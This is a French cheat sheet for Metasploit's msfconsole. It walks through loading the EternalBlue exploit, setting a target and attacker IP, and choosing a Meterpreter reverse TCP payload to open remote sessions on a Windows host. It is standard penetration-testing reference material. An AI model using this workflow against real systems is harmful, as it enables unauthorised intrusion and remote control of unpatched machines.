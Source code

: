 # cheat sheet msfconsole

Une référence rapide pour les commandes courantes de **msfconsole**, l’interface principale de Metasploit Framework, avec fonctions, commandes et exemples pratiques.

---

## 1. Lancer msfconsole
**Fonction** : Démarrer l’interface Metasploit.  
**Commande** : `msfconsole`  
**Exemple** : `msfconsole`  
- Ouvre la console Metasploit avec le prompt "msf6 >".

---

## 2. Rechercher un exploit
**Fonction** : Trouver un exploit spécifique.  
**Commande** : `search <keyword>`  
**Exemple** : `search eternalblue`  
- Liste les exploits liés à "eternalblue" (ex. : MS17-010).

---

## 3. Utiliser un exploit
**Fonction** : Sélectionner un exploit à configurer.  
**Commande** : `use <exploit_path>`  
**Exemple** : `use exploit/windows/smb/ms17_010_eternalblue`  
- Charge l’exploit EternalBlue pour Windows SMB.

---

## 4. Afficher les options d’un exploit
**Fonction** : Voir les paramètres requis/configurables.  
**Commande** : `show options`  
**Exemple** : `show options`  
- Affiche les options comme RHOSTS, RPORT pour l’exploit sélectionné.

---

## 5. Définir une cible
**Fonction** : Configurer l’adresse IP de la cible.  
**Commande** : `set RHOSTS <target_ip>`  
**Exemple** : `set RHOSTS 192.168.1.10`  
- Définit la cible à attaquer sur 192.168.1.10.

---

## 6. Choisir un payload
**Fonction** : Sélectionner un payload pour l’exploit.  
**Commande** : `set PAYLOAD <payload_path>`  
**Exemple** : `set PAYLOAD windows/meterpreter/reverse_tcp`  
- Utilise un payload Meterpreter avec connexion reverse TCP.

---

## 7. Configurer l’hôte local
**Fonction** : Définir l’IP de l’attaquant pour le payload.  
**Commande** : `set LHOST <local_ip>`  
**Exemple** : `set LHOST 192.168.1.100`  
- Définit l’IP de l’attaquant pour recevoir la connexion.

---

## 8. Lancer l’exploit
**Fonction** : Exécuter l’exploit contre la cible.  
**Commande** : `exploit` ou `run`  
**Exemple** : `exploit`  
- Lance l’exploit configuré (ex. : EternalBlue) et ouvre une session si réussi.

---

## 9. Lister les sessions actives
**Fonction** : Voir les sessions Meterpreter ou shell ouvertes.  
**Commande** : `sessions`  
**Exemple** : `sessions`  
- Affiche les ID des sessions actives (ex. : 1, 2).

---

## 10. Interagir avec une session
**Fonction** : Accéder à une session spécifique (ex. : Meterpreter).  
**Commande** : `sessions -i <session_id>`  
**Exemple** : `sessions -i 1`  
- Ouvre la session avec l’ID 1 pour interagir (ex. : Meterpreter).

---

## Notes importantes
- **Prérequis** : Metasploit Framework installé.
- **Installation** :  
  ```bash
  sudo apt update && sudo apt install -y metasploit-framework
